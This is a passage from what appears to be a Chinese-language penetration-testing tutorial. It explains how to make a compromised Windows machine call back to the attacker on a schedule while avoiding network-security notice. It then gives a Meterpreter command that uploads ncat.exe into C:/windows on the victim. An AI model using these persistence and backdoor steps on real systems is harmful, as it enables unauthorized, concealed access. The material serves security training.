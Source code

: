 ![](img/04540190-f411-4a24-89d2-df46b690f59d.png)

一旦初始攻击被破坏，我们希望系统定期回拨。这样的攻击可以设置为保持恒定的连接，每次连接丢失时都会重置连接。它也可以设置为在指定的时间间隔重新连接。我们喜欢设置这些，这样攻击会在某个特定时间回拨，如果攻击机器上没有要连接的端口，那么攻击会保持沉默，直到再次到达那个时间。一个完全持久的连接可能会引起网络安全的注意。

我们现在连接到受害者机器，并向受害者上传 Ncat 的副本。从会话中可以看出，这是一次内部攻击。`ncat.exe`文件位于 Kali 的`/usr/share/ncat-w32/`目录中。连接后，在 Meterpreter 中运行以下命令：

```
upload /usr/share/ncat-w32/ncat.exe C:/windows/ncat.exe  
```

![](img/4004b209-0f77-40bb-80cb-e3ce44e863da.png)

这将把 Ncat 可执行文件传输到受害者系统。请注意，我们在使用`/`而不是`\`作为目录斜杠。由于您使用的是 Linux，必须使用正斜杠**/**。如果您使用**\**并运行命令，您会发现目录名称会连在一起，文件将无法正确上传。
